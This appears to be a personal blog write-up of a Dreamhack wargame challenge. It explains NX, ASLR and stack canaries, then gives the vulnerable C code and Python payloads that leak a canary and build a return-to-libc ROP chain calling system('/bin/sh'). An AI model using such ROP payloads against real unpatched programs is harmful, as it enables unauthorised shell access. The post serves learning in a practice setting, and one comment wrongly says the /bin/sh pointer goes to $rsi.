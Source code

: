 ```yaml
---
title : "Return To Library"
published: true
---
```


# Stack Protection: NX and ASLR
Traditional system exploitation often relied on stack overflow attacks. To mitigate this, architects introduced stack canary, which protects the return address on the stack from being written.

However, attackers later found ways to bypass the canary by injecting a shellcode to the stack and changing the return address to point to that shellcode.

To defend against these attacks, NX and ASLR were introduced:
- **NX(No-eXecute)**: Prevents execution of code on the stack.**
- **ASLR(Address Space Layout Randomization)**: Randomizes memory address at runtime, making it harder for attackers to predict the location of critical code or data.

# NX
What happens when the stack is non-executable?
In traditional stack overflow exploits, we would inject shellcode into the stack.
But with NX enabled, we can no longer execute shellcode stored there.
Instead of executing shellcode, we can redirect execution to existing functions like `system("/bin/sh")`. To perform this, we need:

- The address of `system@plt` function in PLT
- A pointer to the string of `/bin/sh`
- A **proper ROP gadget** to setup arguments
- (optional) a `ret` gadget for stack alignment
## Gadget?
Gadget is a short sequence of assembly instructions ending in a `ret` instruction, used to build a Return-Oriented Programming chain. We can find gadget using `ROPgadget --binary ./<target_binary> --re "<instruction>"` command in shell.

## Example: Return to Library

[Dreamhack](https://dreamhack.io/wargame/challenges/353)
```bash
pwndbg> checksec
File:     /home/yeon/dreamhack/rtl/rtl
Arch:     amd64
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
Stripped:   No
```

Since `./rtl.c` is compiled with NX enabled, we cannot inject and execute shellcode from the stack.

Given c code is as follows:
```c
  7 const char* binsh = "/bin/sh";
  8
  9 int main() {
 10   char buf[0x30];
 11
 12   setvbuf(stdin, 0, _IONBF, 0);
 13   setvbuf(stdout, 0, _IONBF, 0);
 14
 15   // Add system function to plt's entry
 16   system("echo 'system@plt'");
 17
 18   // Leak canary
 19   printf("[1] Leak Canary\n");
 20   printf("Buf: ");
 21   read(0, buf, 0x100);
 22   printf("Buf: %s\n", buf);
 23
 24   // Overwrite return address
 25   printf("[2] Overwrite return address\n");
 26   printf("Buf: ");
 27   read(0, buf, 0x100);
 28
 29   return 0;
 30 }
```

We observe the following:
- `system("echo 'system@plt'")` adds `system@plt` to PLT
- `buf` has vulnerability of stack overflow
- The first `read` leaks the canary
- The second read allows us to overwrite the return address

By inspecting the assembly code of `main` function, we could figure out the structure of stack:
![](https://i.imgur.com/a4qyRmo.png)
> **Question**: Why `?` area is needed?
> It may be related with requirement of stack alignment of `movaps`...

### 1st read: Leak Canary

```python
payload1 =
	b"A" * 0x30 + b"A" * 0x8 + b"\n"
```

We can overwrite the null byte at the beginning of the canary to leak the rest via `printf`. So we send total 0x39 bytes.

### 2nd read: RET Overwrite
We will use a chain of ROP to call system function.
- The first `RET` region indicates `pop rdi; ret` gadget
- `RET+0x8` region indicates `/bin/sh` so that it can be stored in $rsi
- `RET+0x10` region indicates `ret` gadget **to make 16-byte alignment**
- `RET+0x18` region indicates `system@plt`
![](https://i.imgur.com/ulb6CKY.png)
We can write payload as follows:

```python
payload2 =
	b"A" * 0x38 +
	cnry +
	b"B" * 0x8 +
	p64(gadget1_addr) + # pop rdi; ret
	p64(binsh) + # /bin/sh to rdi
	p64(gadget2_addr) + # ret
	p64(system_plt) # system@plt
```



